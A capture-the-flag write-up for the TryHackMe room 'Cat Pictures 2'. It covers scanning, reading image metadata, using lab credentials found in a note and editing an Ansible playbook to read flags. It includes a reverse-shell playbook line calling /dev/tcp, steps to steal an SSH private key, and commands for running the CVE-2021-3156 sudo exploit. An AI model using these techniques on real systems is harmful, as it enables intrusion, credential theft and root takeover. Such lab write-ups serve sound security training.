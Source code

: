 # Cat Pictures 2

A writeup for the room [Cat Pictures 2](https://tryhackme.com/room/catpictures2) on TryHackMe.

> Now with more Cat Pictures!

<Image src={require("./logo.png").default} height="256" />

Main parts of the room:

- Reading image metadata
- Accessing Gitea and editing files using Git or in-browser editor
- Runnig custom Ansible tasks through OliveTin
- Exploiting CVE-2021-3156

## Footprinting

Firstly, we can start with a nmap scan.

We find five open ports with three web servers publicly accessible.

```bash
nmap -sS <HOST>
```

<Image src={require("./nmap.png").default} />

```
22 -> SSH
80 -> Lychee Photo Album
222 -> Gitea SSH (?)
3000 -> Gitea
8080 -> python server (?)
```

## First flag

### Finding interesting metadata

We can begin by looking inside the Lychee Photo Album.

In the info of the first image we can find a message about stripping away the metadata.

<Image src={require("./image.png").default} />

Once the image is downloaded, we can check its metadata to find an url to a secret txt note.

```
exiftool image.jpg
```

<Image src={require("./metadata.png").default} />

### The secret note

The url is `:8080/764efa883dda1e11db47671c4a3bbd9e.txt`

```
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

### Accessing Gitea

Now, we have the credentials for the Gitea instance.

Once logged in, we can see a repository called `ansible`.

<Image src={require("./repo.png").default} />

Inside the repository there is a file called `flag1.txt`. Open it to get the first flag.

## Second flag

### Running Ansible tasks using OliveTin

From the secret note, we know that Ansible is accessible on the port 1337.

There we can find a OliveTin instance that allows to run the Ansible tasks.

<Image src={require("./ansible.png").default} />

### Editing the playbook

It is possible to change the script `playbook.yml` through Gitea and then run it from OliveTin.

If you prefer you can also configure the ssh access and modify it from your machine.

<Image src={require("./edit.png").default} />

Firstly, we can print the content of the home folder.

Following the example script, this is a possible solution.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print home folder
      become: false
      command: ls -lR ~
      register: ls_content
      changed_when: false

    - debug: var=ls_content
```

Run the script and check the output.

We can see that in the home folder there is a file called `flag2.txt`.

We can edit again the script to print the content of the flag.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print flag2
      become: false
      command: cat flag2.txt
      register: flag2
      changed_when: false

    - debug: var=flag2
```

<Image src={require("./ansible-output.png").default} />

If you check the output, you can see the second flag.

## Third flag

### Obtaining a reverse shell

For the third flag, it is better to use a reverse shell.

Remember to listen with:

```bash
nc -nlvp <PORT>
```

To check your IP use:

```bash
ifconfig
```

In this Gist you can find an example:

<Gist id="32ccf1baaa3066654a460265fca53960" />

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: rev
      shell: bash -c 'bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1'
```

<Image src={require("./rev.png").default} />

### Stealing ssh keys

To make the work easier, we can also steal the ssh key.

It is enough to copy the content of `~/.ssh/id_rsa` and paste it in a file on our machine.

Then, we can use the command `ssh -i <FILE> bismuth@<HOST>` to login.

### Exploiting CVE-2021-3156

We can try with LinPeas and LinEnum, but a faster way is to exploit the CVE-2021-3156 vulnerability.

[https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

Download the file from the github repo and copy them on the machine.

After that, follow the instructions to exploit the vulnerability.

In the end, you should run something like this:

```bash
# build the exploit
make

# obtain a list of possible targets
./sudo-hax-me-a-sandwich

# select a target
./sudo-hax-me-a-sandwich 0
```

The third flag is in the root folder.

<Image src={require("./pe.png").default} />
